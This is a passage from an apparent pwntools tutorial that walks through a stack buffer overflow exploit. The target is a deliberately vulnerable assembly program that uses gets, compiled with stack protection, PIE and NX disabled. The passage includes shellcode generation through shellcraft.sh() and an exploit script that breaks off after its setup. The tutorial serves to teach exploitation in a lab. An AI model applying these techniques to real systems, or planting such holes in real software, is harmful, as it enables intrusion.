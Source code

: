 ```python
context.binary = './vuln_program'

shellcode = asm('''
      mov rdi, 0
      mov rax, 60
      syscall
''')
print(shellcraft.sh())
```

## GDB integration

Most importantly, pwntools provides GDB integration, which is extremely useful.

Let's follow an example using the following program:

```asm
extern gets
extern printf

section .data
formatstr: db "Enjoy your leak: %p",0xa,0

section .text
global main
main:
	push rbp
	mov rbp, rsp
	sub rsp, 64
	lea rbx, [rbp - 64]
	mov rsi, rbx
	mov rdi, formatstr
	call printf
	mov rdi, rbx
	call gets
	leave
	ret
```

Compile it with:

```console
nasm vuln.asm -felf64
gcc -no-pie -fno-pic  -fno-stack-protector -z execstack vuln.o -o vuln
```

Use this script to exploit the program:

```python
#!/usr/bin/env python
from pwn import *

ret_offset = 72
buf_addr = 0x7fffffffd710
ret_address = buf_addr+ret_offset+16

# This sets several relevant things in the context (such as endianess,
# architecture etc.), based on the given binary's properties.
# We could also set them manually:
# context.arch = "amd64"
context.binary = "vuln"
p = process("vuln")


payload = b""
# Garbage
```